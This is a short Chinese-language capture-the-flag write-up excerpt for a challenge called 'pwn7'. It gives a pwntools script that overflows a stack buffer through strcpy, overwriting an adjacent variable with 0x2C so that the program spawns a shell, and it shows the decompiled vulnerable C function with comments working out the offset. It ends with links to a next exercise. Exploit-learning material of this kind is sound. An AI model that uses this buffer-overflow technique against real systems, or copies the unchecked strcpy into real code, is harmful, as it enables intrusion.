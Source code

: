### pwn7 长度溢出覆盖变量

```python
from pwn import *

file = './pwn7'
sh = process(file)
junk = 'a' * (0x4c - 0xc)
payload = flat(junk, 44)

sh.sendline(payload)
sh.interactive()
```

```c
void __cdecl __noreturn vuln(int a1, char *src)
{
  char dest; // [esp+Ch] [ebp-4Ch]
  int v3; // [esp+4Ch] [ebp-Ch]
  // dest:4c, v3 c, 距离 4c-c
  // 然后痛覆盖 v3值为0x2c即44即可

  v3 = a1;
  strcpy(&dest, src);
  printf("answer = %d\n", v3);
  if ( v3 == 0x2C )
    execl("/bin/sh", "sh", 0);
  else
    puts("Sorry, you lose.");
  exit(0);
}
```


## level2_x64

例题level2_x64, [L1](https://www.cnblogs.com/gaonuoqi/p/11642998.html) [L2](https://blog.csdn.net/qq_44832048/article/details/97263868)
